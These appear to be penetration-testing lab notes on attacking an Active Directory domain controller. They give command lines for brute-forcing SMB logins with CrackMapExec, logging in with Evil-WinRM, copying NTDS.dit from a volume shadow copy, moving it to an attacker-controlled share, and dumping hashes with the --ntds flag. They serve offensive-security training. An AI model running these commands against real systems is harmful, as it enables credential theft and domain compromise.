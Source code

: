 ### **Launching the Attack with CrackMapExec `netexec is recommended`**

- `crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
  using `netexec` is recommended

# **Capturing NTDS.dit**

NTDS.DIT stands for New Technology Directory Services Directory Information Tree
It serves as primary database file in Microsoft AD. It stores and organizes all the info related to objects in domain, including users, groups, computers, password hashes and more.

**`C:\Windows\ NTDS\Ntds.** **dit`**

### **Connecting to a DC with Evil-WinRM**

We can connect to a target DC using the credentials we captured.

- `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`

### **Checking Local Group Membership**

- then we can check what privileges a user have `net localgroup`
- we are checking if we have local administrator rights, to make a copy of `NTDS.dit` we need to be (local admin or domain admin to make a copy)

### **Checking User Account Privileges including Domain**

- `net user bwilliamson`

### **Creating Shadow Copy of C:**

- `vssadmin CREATE SHADOW /For=C:` → we are creating volume shadow copy using vssadmin

### **Copying NTDS.dit from the VSS**

- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
  we are copying ntds.dit file from the volume shadow copy of C: to another location to transform ntds.dit to attacker machine.
- `cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData`
  finally sending to attacker
  we also need the `system.save` file to get the hash from ntds.dit file locally

## **A Faster Method: Using cme to Capture NTDS.dit**

- `crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds`
  we can use above single cmd to dump the ntds.dit file

---

---

---